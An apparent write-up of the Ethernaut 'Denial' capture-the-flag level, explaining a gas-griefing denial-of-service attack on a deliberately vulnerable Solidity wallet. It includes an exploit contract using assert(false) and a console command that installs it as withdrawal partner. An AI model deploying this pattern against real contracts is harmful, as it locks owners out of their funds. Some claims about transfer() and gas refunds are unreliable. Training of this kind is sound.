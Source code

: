 # Writeup for Denial

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (while the contract still has funds, and the transaction is of 1M gas or less), you will win this level.

### Contract Explanation

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

<details>
<summary>Click to view the source contract</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```

I hope you are good at understanding contracts. If you are unable to understand the contract, then stop here and try out all the challenges on your own without going through any write-up. If there are any new things in the contract, I will explain those types of contracts.

</details>

### Key Concepts To Learn

In Solidity, we use assert and require to check certain conditions are met or not. But we need to understand the major difference between assert and require.

`assert`: This is used to check for conditions that should never occur in a correctly functioning contract. If an assert fails, it indicates a serious issue in the code, such as an internal error or a bug. It is typically used to validate invariants or to check for conditions that should always be true. Below is an example of assert.

`require`: This is used for input validation and to ensure certain conditions are met before executing further code. It can check for things like valid user inputs, sufficient funds, or conditions related to external calls. If a require statement fails, it reverts the transaction and provides an error message.

Below is an example that gives much clarity about the usage difference between `assert` and `require`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ExampleContract {
    uint256 public value;

    // Function to set the value with input validation
    function setValue(uint256 _value) public {
        // Use require to validate input
        require(_value > 0, "Value must be greater than 0");
        value = _value;
    }

    // Function to increment the value
    function incrementValue() public {
        // Use assert to check internal logic
        uint256 oldValue = value;
        value += 1;

        // Ensure that value has increased correctly
        assert(value == oldValue + 1);
    }
}

```

The major difference between `assert()` and `require()` is that if the condition in `require()` fails, it will revert all the changes made and also refund the gas offered for the transaction. But if the `assert()` fails, it will consume all the gas and revert all the state changes.

### Exploit

Now our task is to make the contract deny the transactions that call the withdraw() function.

```solidity
function withdraw() public {
    uint256 amountToSend = address(this).balance / 100;
    // perform a call without checking return
    // The recipient can revert, but the owner will still get their share
    partner.call{value: amountToSend}("");
    payable(owner).transfer(amountToSend);
    // keep track of last withdrawal time
    timeLastWithdrawn = block.timestamp;
    withdrawPartnerBalances[partner] += amountToSend;
    }
```

If we see the withdraw() function, we can observe that whenever someone calls the withdraw() function, it will send contract balance/100 to the partner as well as the owner. If we set our address as the partner, we will become the partner and it will send the ether.

```solidity
function setWithdrawPartner(address _partner) public {
    partner = _partner;
}
```

By calling the above function, we can set the partner to whatever address we pass during the function call.

If we set the partner address as EOA (Externally owned account), it won't be useful because we can't reject some one sending ether to our account. We need to write an `Exploit` contract, and we need to set the `Exploit contract` as the partner.

In general if we want call withdraw() function we need to send some units of gas such that it will be sufficient to execute all the lines in withdraw(). If we send only limited gas the function call will revert.

Since the withdraw() function is making a low-level call during the call, it will send the entire gas (gas required for executing `low-level call` as well as gas required to execute the next lines after `low-level call`) during the `call`. Once the partner transaction is completed, the remaining gas is returned to the withdraw() function, and the remaining gas is used to execute the next lines.

Since the withdraw() function is making a low-level call to the partner (exploit contract), in our exploit contract, if we somehow consume all the gas, then there won't be enough gas to execute the transfer() function, and it will revert the entire function call of withdraw().

When a contract makes a low-level call to another contract, there should be a `receive()` function in the called contract. In the `receive()` function, we can write whatever code we want. So if we write an `assert()` condition that will always fail, then the `assert()` will consume all the gas and revert. The below is the exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.0;


contract ExploitDenial{

    receive() external payable {
        assert(false);
    }
}
```

Deploy this contract and open the console and enter the following

What happens if you use `revert()` instead of `assert()` ? Will it revert all the state changes or reverts only the low-level call function? It will revert only `call()` function because call is designed in such a way that when it is used if the call is successful it will return `true` if the call fails it returns `false`. So if we just use revert() it will only revert the call function but the lines after revert will execute normal way unless return value is handled properly.

```javascript
> await contract.setWithdrawPartner("YOUR__EXPLOIT__CONTRACT__ADDRESS")
```

Once the transaction is completed, just submit the instance.

### Key Takeaways

The Denial contract is currently using a low-level call to send ether. However, if it were to use the `transfer()` or `send()` function instead, the exploit described above would not be possible. This is because a low-level call sends the entire gas during the call, whereas `send()` and `transfer()` only send 2300 units of gas, which is sufficient for the transfer of ether.

If the contract were to use `transfer()`, the function would only send 2300 units of gas, which is enough for transferring ether. After the transfer, there wouldn't be much room for additional operations. If we were to attempt any operations in the `receive()` function of our contract, the `transfer()` would be reverted. Although the revert would only return false, it wouldn't have any effect on the main function call.
